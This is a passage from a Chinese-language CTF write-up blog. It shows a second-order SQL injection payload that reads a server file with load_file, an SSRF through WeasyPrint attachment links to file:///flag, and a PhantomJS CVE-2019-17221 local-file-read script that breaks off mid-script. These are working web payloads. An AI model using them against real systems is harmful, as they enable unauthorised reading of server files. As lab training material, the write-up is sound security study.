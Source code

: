 看到flag_8946e1ff1ee3e40f.php，也加一层hex

```
write: category=',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
comment: content=*/#
```

————雀食很牛逼的二次注入

{{% /spoiler %}}

## page 07

{{% spoiler "[FireshellCTF2020]URL TO PDF  |  ssrf" %}}

会访问给出的网址，并把结果转为pdf呈现出来

![image-20211209135327858](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211209135327858.png)

这个请求头显示是WeasyPrint 51，google可以搜到这一篇https://hackerone.com/reports/508123

![image-20211209135724639](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211209135724639.png)

如果页面上存在这样的标签

```html
<link rel="attachment" href="file:///flag">
```

或者

```html
<a rel='attachment' href='file:///flag'>
```

就相当于SSRF请求了，并把结果附到pdf中，我们可以用binwalk分离一下内容

```bash
binwalk -e xxx.pdf
cat *|grep flag
```

![image-20211209140940401](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211209140940401.png)

参考：[wp](https://guokeya.github.io/post/HixADj8UG/)

{{% /spoiler %}}

{{% spoiler "[FireshellCTF2020]ScreenShooter  |  cve-2019-17221 LFI" %}}

跟上面那个前端一样，不过区别是会返回拍的照片

![image-20211209141637106](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211209141637106.png)

看请求头用的是PhantomJS，搜到了这样一篇：[PhantonJS_Arbitrary_File_Read.pdf](https://github.com/h4ckologic/CVE-2019-17221/blob/master/PhantonJS_Arbitrary_File_Read.pdf)，一个已知的cve-2019-17221

```html
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
	<script type="text/javascript">
		var amiz;
		amiz = new XMLHttpRequest;
		amiz.onload = function(){
			document.write(this.responseText)
		};
		amiz.open("GET","file:///flag");
		a.send();
```
